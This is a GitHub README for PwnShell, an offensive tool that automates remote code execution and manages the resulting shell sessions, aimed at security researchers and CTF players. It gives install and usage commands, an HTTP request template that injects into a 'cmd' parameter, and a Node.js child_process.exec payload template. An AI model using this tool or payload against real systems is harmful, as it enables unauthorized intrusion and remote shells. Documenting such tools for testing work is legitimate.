 

# PwnShell

**PwnShell** is a powerfull RCE exploitation Automator and a Session handler tool designed for Security Researchers and CTF players.
![Alt text](https://github.com/zAbuQasem/PwnShell/blob/main/Screenshots/PwnShell.png)

<details open="open">
  <summary>Table of Contents</summary>
  <ol>
    <li>
      <a href="#getting-started">Installation</a>
    </li>
    <li><a href="#usage">Usage</a></li>
    <li><a href="#license">License</a></li>
    <li><a href="#contact">Contact</a></li>
    <li><a href="#acknowledgements">Acknowledgements</a></li>
  </ol>
</details>

## Installation

1. Clone the repo
   ```sh
   git clone https://github.com/zAbuQasem/PwnShell
   ```
2. Install the dependencies
   ```sh
   pip install -r requirements.txt
   ```
3. Make the script executable 
   ```sh
   cd PwnShell/
   chmod +x pwnshell.py
   ```



<!-- USAGE EXAMPLES -->
## Usage
### Recommended Method 👇
```sh
   ./pwnshell.py -H [HOST IP] -f [REQUEST FILE]
```
#### Request File Example:
###### Put 'PWNME' in the vulnerable place.
```sh
GET /Vulnerable.php?cmd=PWNME HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
DNT: 1
Connection: close
Upgrade-Insecure-Requests: 1
```
### OR
##### Note: Cookie and headers must be in JSON format (if provided).
```sh
./pwnshell.py -H [HOST-IP] -u [TARGET-URL] -m [REQUEST-METHOD] -c [COOKIE (optional)] -k [HEADERS (optional)]
   ```
   ```sh
   ./pwnshell.py -H <HOST-IP> -u http/s://<TARGET>/Vulnerable.php?cmd=PWNME -m get 
   ```

### For NodeJs Payloads 
###### To use only NodeJs payload -> require('child_process').exec('PWNME')
```shell
  ./pwnshell.py -H [HOST-IP] -n   
```

### Use Help for full usage details
```sh
   ./pwnshell.py -h
   ```

# Preview
## Using [Request File]
![Alt text](https://github.com/zAbuQasem/PwnShell/blob/main/Screenshots/requestfile-demo.gif)

## Using [URL]
![Alt text](https://github.com/zAbuQasem/PwnShell/blob/main/Screenshots/url-demo.gif)
   


## License

Distributed under the MIT License. See `LICENSE` for more information.



<!-- CONTACT -->
## Contact

**Zeyad AbuQasem** - [LinkedIn](https://www.linkedin.com/in/zeyad-yahya-0985971b5/)

**Omar Albalouli** - [LinkedIn](https://www.linkedin.com/in/omar-albalouli/)

**Project Link**: [https://github.com/zAbuQasem/PwnShell](https://github.com/zAbuQasem/PwnShell)



<!-- ACKNOWLEDGEMENTS -->
## Acknowledgements
* [linPEAS](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS)
* [LinEnum](https://github.com/rebootuser/LinEnum)
* [Linux Exploit Suggester](https://github.com/mzet-/linux-exploit-suggester)
* [Docker Privesc Script](https://github.com/flast101/docker-privesc)
* [SUID3NUM](https://github.com/Anon-Exploiter/SUID3NUM)
* [Burpee](https://github.com/xscorp/Burpee)




[license-url]: https://github.com/zAbuQasem/PwnShell/blob/master/LICENSE.txt
[product-screenshot]: images/screenshot.png
